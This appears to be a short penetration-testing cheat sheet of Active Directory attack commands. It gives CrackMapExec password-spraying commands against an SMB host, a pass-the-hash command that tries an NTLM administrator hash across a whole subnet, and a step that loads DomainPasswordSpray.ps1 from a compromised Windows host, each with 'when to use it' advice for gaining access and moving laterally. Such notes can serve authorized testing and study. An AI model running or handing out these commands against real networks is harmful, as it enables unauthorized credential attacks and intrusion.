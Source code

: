 ### `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +`

  * **What it does:** Uses CrackMapExec to try the password `Password123` against every user in `valid_users.txt` over the SMB protocol. The `| grep +` at the end filters the output to show only successful logins.
  * **When to use it:** This is the most common and powerful method for password spraying on an internal network. CME is highly optimized for this task and provides clear results.
  * **Example Command:**
    ```shell
    sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p 'Summer2025!' | grep '+'
    ```
  * **Options:**
      * `-u valid_users.txt`: Specifies a file containing **u**sernames.
      * `-p 'Summer2025!'`: The **p**assword to spray.
      * `| grep '+'`: CME uses a green `(+)` to indicate a successful login. This command shows only those successful results.

-----

### `sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +`

  * **What it does:** This command performs a "pass-the-hash" attack across an entire subnet. Instead of a password, it uses the NTLM hash of the `administrator` account's password to authenticate against the **local accounts** of every machine in the range.
  * **When to use it:** When you've dumped a local administrator hash from one machine and want to see if that same password is reused on other workstations or servers. This is a classic lateral movement technique.
  * **Example Command:**
    ```shell
    sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep '+'
    ```
  * **Options:**
      * `--local-auth`: Tells CME to authenticate against **local** accounts, not domain accounts.
      * `-H 88ad...`: The NTLM **H**ash to use for authentication.

-----

### `Import-Module .\DomainPasswordSpray.ps1`

  * **What it does:** This PowerShell command loads a specialized script for password spraying into your current session.
  * **When to use it:** When you're operating from a compromised Windows host and want to launch a password spray from within the network using native PowerShell tools.
  * **Example Command:**
    ```powershell
    Import-Module .\DomainPasswordSpray.ps1
    ```

-----
